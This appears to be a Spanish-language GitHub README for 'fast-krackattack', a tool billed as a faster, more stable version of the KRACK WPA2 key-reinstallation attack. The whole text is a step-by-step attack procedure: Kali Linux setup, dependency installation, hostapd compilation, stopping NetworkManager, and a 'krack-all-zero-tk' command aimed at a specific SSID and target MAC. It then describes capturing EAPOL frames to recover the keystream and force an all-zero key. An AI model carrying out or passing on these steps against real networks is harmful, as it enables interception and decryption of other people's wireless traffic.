 # fast-krackattack
Basado en el ataque de Krackattacks de Vanhoef y Piessens, se realizó mejora en velocidad y estabilidad del ataque
La forma probada de realizar el ataque de krackattacks de forma estable, rápida y exitosa es corriendo en kali linux.2 (2019), arrancando en modo USB y sin conexión a internet.

Una vez que ha cargado en modo live, se instalas las siguientes dependencias:

apt-get install libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git sysfsutils python-scapy python-pycryptodome

Nota: Cabe indicar que la instalación de las dependencias no debe superar los 9 MB, si es superior el tamaño de la instalación debe iniciar de nuevo el proceso.

Al realizar con éxito la instalación de las dependencias se configura los siguientes archivos:

enable_internet_forwarding y hostapd.conf

La configuración requiere ingresar los nombres de las interfaces inalámbricas reconocidas en kali linux.

Por último nos dirigimos a la carpeta hostapd y compilamos:

 cd hostapd
  cp defconfig .config
  make -j 2
  
<Para realizar el ataque desactivamos el administrador de red con el siguiente comando:

service Networkmanager stop

Procedemos a escribir el script del ataque, por ejemplo:

./krack-all-zero-tk wlan2 wlan1 HackAdvanced -t a4:93:3f:62:37:7b -d

Con este ataque podemos visualizar con wireshark como las tramas eapol van trabajando hasta tener los mensajes 4 cifrados y sin cifrar y obtener el keystream. Se recomienda activar todas las interfaces de wireshark.

También sirve para la instalación de clave todo en cero.
